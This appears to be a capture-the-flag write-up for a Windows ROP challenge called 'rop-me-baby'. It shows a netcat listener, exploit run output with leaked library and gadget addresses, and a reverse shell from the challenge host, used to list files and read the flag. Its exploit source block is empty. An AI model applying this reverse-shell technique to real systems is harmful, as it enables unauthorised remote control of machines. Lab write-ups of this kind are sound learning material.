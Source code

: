 ```python
```

The environment setting method is as follows.

```
0. Leave the port open on my server.
1. start exploit!
```

`set port`

```
root@8055cfbd987a:~# nc -lvp 1234
listening on [any] 1234 ...
```

`start exploit`

```
juntae@ubuntu:~/ctf/timisoara/rop-me-baby$ python ex.py
```

`Client`

```
juntae@ubuntu:~/ctf/timisoara/rop-me-baby$ p ex.py 
[+] Opening connection to 89.38.208.147 on port 2025: Done
[*] ntdll : 0x7ffd02630000
[*] kernel32 : 0x7ffd01a00000
[*] bss : 0x4de040
[*] pop_rcx : 0x40c620
[*] pop_rdx : 0x401095
[*] pop_r8  : 0x4960b3
[*] pop_r9  : 0x4a4a14
[*] payload : 1228
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ 
[*] Interrupted
```

`server`

```bash
root@8055cfbd987a:~# nc -lvp 1234
listening on [any] 1234 ...
89.38.208.147: inverse host lookup failed: Unknown host
connect to [172.17.0.6] from (UNKNOWN) [89.38.208.147] 58731
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\RopME\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 32BC-80DB

 Directory of C:\Users\RopME\Desktop

09/13/2019  12:21 PM    <DIR>          .
09/13/2019  12:21 PM    <DIR>          ..
09/13/2019  12:22 PM                29 chall.bat
09/13/2019  11:31 AM                28 flag.txt.txt
09/13/2019  12:53 PM           902,144 rop_me_baby.exe
09/13/2019  12:03 PM    <DIR>          socat_not_working
               3 File(s)        902,201 bytes
               3 Dir(s)  47,296,638,976 bytes free

C:\Users\RopME\Desktop>type flag.txt.txt
type flag.txt.txt
```